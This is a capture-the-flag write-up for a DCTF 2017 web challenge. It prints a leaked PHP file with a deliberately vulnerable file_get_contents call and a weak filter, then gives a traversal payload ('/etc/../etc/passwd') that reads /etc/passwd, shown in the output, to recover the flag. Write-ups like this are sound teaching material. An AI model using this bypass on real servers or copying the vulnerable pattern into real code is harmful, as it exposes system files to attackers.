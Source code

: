 ## Is nano good?

### Description:
This is our new admin platform interface. Can you test it?

### Author: 
Lucian Nitescu

### Stats: 
2 points / 135 solvers

### Solution:  

The challenge started with this link: [https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login).

At this point you are prompted with this:

![alt text](./img/1.png "Login page")

At this point you should press ctrl + u to view the page source code and the intended comments.

![alt text](./img/2.png "Comments")

The comments gives us two hints:
~ "Have you tried the index.php?" => you should try index.php 
~ "edit it with nano" => meaning that it left also a copy of index.php with a tilda at the end (leaking the file content)

Now we go to [view-source:https://junior2.dctf-quals-17.def.camp/index.php~](view-source:https://junior2.dctf-quals-17.def.camp/index.php~) and we get this code: 

```
<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website 
	echo file_get_contents($page); 
}
?>

```

At this point we can perform a path traversal to /etc/passwd and we can try to avoid the filtering!

In other words we go to [https://junior2.dctf-quals-17.def.camp/?page=/etc/../etc/passwd&type=defcamp_rulz](https://junior2.dctf-quals-17.def.camp/?page=/etc/../etc/passwd&type=defcamp_rulz) and we will get the following contents of the /etc/passwd file.

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin pollinate:x:111:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd: 4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f: c48b33a7972:x:1003:1003::/home/c48b33a7972: c0752d13db4:x:1004:1004::/home/c0752d13db4: 32ff9930a99:x:1005:1005::/home/32ff9930a99: 6c567ea3321:x:1006:1006::/home/6c567ea3321: 13b}:x:1007:1007::/home/13b}:
```

And we extract the flag from: 

```
DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd:
4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f:
c48b33a7972:x:1003:1003::/home/c48b33a7972:
c0752d13db4:x:1004:1004::/home/c0752d13db4:
32ff9930a99:x:1005:1005::/home/32ff9930a99:
6c567ea3321:x:1006:1006::/home/6c567ea3321:
13b}:x:1007:1007::/home/13b}:
```

DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}